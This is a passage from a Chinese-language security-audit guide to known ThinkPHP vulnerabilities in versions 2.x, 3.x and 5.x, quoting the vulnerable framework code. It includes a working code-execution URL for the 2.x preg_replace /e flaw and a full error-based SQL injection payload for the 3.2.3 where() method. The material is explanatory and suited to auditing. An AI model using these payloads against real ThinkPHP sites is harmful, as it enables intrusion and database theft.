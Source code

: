 **示例漏洞代码**  
：  
  
```
// ThinkPHP 5.x模板引擎RCE$this->assign('name', $name);  // $name可控$this->display();  // 模板引擎解析时可能导致代码执行
```  
  
### 7. 版本特定漏洞审计  
  
不同版本的ThinkPHP存在不同的安全漏洞，需要针对性审计。  
#### 7.1 ThinkPHP 2.x漏洞  
  
**preg_replace /e模式代码执行漏洞**  
：  
  
在ThinkPHP/Lib/Think/Util/Dispatcher.class.php  
中，Dispatcher类的dispatch方法使用了preg_replace的/e模式，可能导致代码执行：  
  
```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```  
  
  
攻击者可以构造如下URL触发漏洞：  
  
```
http://127.0.0.1/index.php/a/b/c/${phpinfo()}
```  
  
#### 7.2 ThinkPHP 3.x漏洞  
  
**where注入漏洞**  
：  
  
在ThinkPHP 3.2.3版本中，Model类的where方法在处理数组条件时可能存在SQL注入：  
  
```
$User = M('User');$result = $User->where(array('id'=>array('exp',$id)))->find();  // $id可控时可能导致SQL注入
```  
  
  
攻击者可以构造如下参数触发漏洞：  
  
  
```
id[0]=exp&id[1]=1) AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),0x7e,version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```  
  
#### 7.3 ThinkPHP 5.x漏洞  
  
**远程代码执行漏洞**  
：  
  
在ThinkPHP 5.0.x和5.1.x的多个版本中，Request类的method方法存在远程代码执行漏洞：  
  
```
// ThinkPHP/library/think/Request.phppublic function method($method = false){    if (true === $method) {        // 获取原始请求类型        return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);    } elseif (!$this->method) {        if (isset($_POST[Config::get('var_method')])) {            $this->method = strtoupper($_POST[Config::get('var_method')]);            $this->{$this->method}($_POST);        } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {            $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);        } else {            $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);        }    }    return$this->method;}
```  
  